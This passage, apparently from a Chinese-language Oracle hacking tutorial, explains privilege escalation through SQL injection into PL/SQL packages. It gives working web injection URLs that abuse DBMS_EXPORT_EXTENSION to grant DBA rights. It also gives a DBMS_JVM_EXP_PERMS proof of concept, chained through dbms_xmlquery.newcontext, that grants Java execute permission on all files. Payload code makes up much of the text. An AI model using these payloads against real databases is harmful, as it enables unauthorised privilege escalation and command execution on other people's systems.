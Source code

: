 我们可以看到当GET_TABLES=1时，这代码无懈可击，但是当GET_TABLES=0时，TYPE_SCHEMA和TYPE_NAME就是注入点啊！突然觉得oracle觉得好可爱，这里我们就拿get_domain_index_tables演示

```
web: http://www.hellove.net/hellove.php?id=123 and SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDX','SCH','DBMS_OUTPUT".PUT(:P1);execute immediate ''declare pragma autonomous_transaction; begin execute immediate ''''grant dba to hellove''''; end;''; END;--','SYS',1,'1',0)=0;

```

注射到第三参TYPE_NAME，熟悉pl/sql的都应该了解上面在干嘛：） 不过这个包的三个函数在06年7月之后就被修复了，也就是说 oracle 11g就不能再用了

> dbms_xmlquery.newcontext与dbms_xmlquery.getxml

我本来是还要写hacking oracle with pl/sql的，不过被这两个函数直接灭掉我这想法，这两个函数使得之前我以为仅能在pl/sql环境下利用的 漏洞，在web下也能利用了

```
dbms_xmlquery.getxml() public role  
dbms_xmlquery.newcontext() public role  
sys.kupp$proc.create_mater_process() dba role

```

这三个函数都可以直接执行PL/SQL语句，定义为invoker right ，所以使得之前只能在pl/sql环境中使用的漏洞，现在在web环境中也可以使用了，这三个函数应该都不算是存在漏洞，只能说是特性而已，后期会经常使用，现在提及一下

> DBMS_JVM_EXP_PERMS

DBMS_JVM_EXP_PERMS这个包比较好玩，纯粹是逻辑型的漏洞，所需的权限非常小，只要有create session就可以了，只可惜DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS不能在web环境中直接调用，作者给的poc能使我们的用户直接得到Java权限

```
DECLARE  
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;  
CURSOR C1 IS SELECT 'GRANT',USER(), 'SYS','java.io.FilePermission','<<ALL FILES>>','execute','ENABLED' from dual;  
BEGIN  
OPEN C1;  
FETCH C1 BULK COLLECT INTO POL;  
CLOSE C1;  
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);  
END;  

```

个人PL/SQL编程技术有限，尝试将上述poc用dbms_xmlquery.newcontext结合利用，不晓得为什么oracle老是提示ORA-03113: end-of-file on communication channel ,只能创建个函数，然后在通过函数进行利用，唉，结果又必须多一个create procedure权限才能利用 作者这个很厉害的漏洞，下面是我的代码

```
web: http://www.hellove.net/hellove.php?id=123 and dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;
 begin execute immediate ''create or replace function myjava return number is PRAGMA AUTONOMOUS_TRANSACTION;
 begin execute immediate ''''DECLARE POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;CURSOR C1 IS 
 SELECT ''''''''GRANT'''''''',USER(), ''''''''SYS'''''''',''''''''java.io.FilePermission'''''''',
 ''''''''&lt;&lt;ALL FILES&gt;&gt;'''''''',''''''''execute'''''''',''''''''ENABLED'''''''' from dual;BEGIN OPEN C1;
 FETCH C1 BULK COLLECT INTO POL;CLOSE C1;DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);END;'''';commit;return 1;end;''; 
 commit; end;') is not null

web: http://www.hellove.net/hellove.php?id=123 and myjava()=1

```
